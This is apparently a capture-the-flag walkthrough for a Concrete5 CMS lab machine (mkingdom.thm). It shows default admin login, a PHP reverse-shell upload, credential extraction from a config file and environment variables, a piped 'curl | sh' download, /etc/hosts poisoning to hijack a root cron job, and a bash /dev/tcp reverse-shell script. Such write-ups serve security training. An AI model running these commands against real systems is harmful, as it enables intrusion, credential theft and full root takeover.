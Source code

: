# How to access the admin panel
Scan the website using nmap.
```BASH
nmap -sV VICTIM_IP_ADDRESS
```
Nmap reveals that port 85 is open.

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


Run Gobuster after completing the Nmap scan. The results reveal the /app directory.
```BASH
gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64
```
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect.

![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later.

![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS.

![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types.

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell.

![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file.
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

## On the attacker machine
Start a listener.
```BASH
nc -lvnp 4444
```

Go back to browser and in new tab go to:
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

Once the shell is triggered, upgrade the session.
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:

![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user.
```BASH
su toad
``` 
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:

![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)  

Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag.

![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)  

Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	[linpeas.sh](http://michalszalkowski.com/security/linpeas/)
2.	[Documentation](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## On the attacker machine
Download linpeas.sh.
```BASH
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh
```

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```

## On the victim machine
Download and run linpeas.sh.
```BASH
curl <attacker_machine_ip_adress>/linpeas.sh | sh
```

During the scan we can see that /etc/hosts is writable.

![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute:
```BASH
curl mkingdom.thm:85/app/castle/application/counter.sh
```

To redirect mkingdom.thm to the attacker's IP.
```BASH
echo "ATTACKER_IP_ADDRESS   mkingdom.thm" >> /etc/hosts
```

However, this alone doesn't work, because cron still resolves to 127.0.1.1:

![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually.
```BASH
cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

ATTACKER_IP_ADDRESS    mkingdom.thm
EOF
```

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
```BASH
cp /tmp/hosts_fixed /etc/hosts
```

As shown below, the cron job is configured to reach the attacker's machine.

![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On the attacker machine
Create the folder structure.
```BASH
mkdir -p app/castle/application
cd app/castle/application
```

After that create counter.sh.
```BASH
cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
```

Lastly change permission to executable.
```BASH
chmod +x counter.sh
```

Full process:

![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
```BASH
python3 -m http.server 85
```
```BASH
nc -lvnp 4444
```

Wait for cron to trigger.

![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Get reverse shell as root.

![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag.

![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)
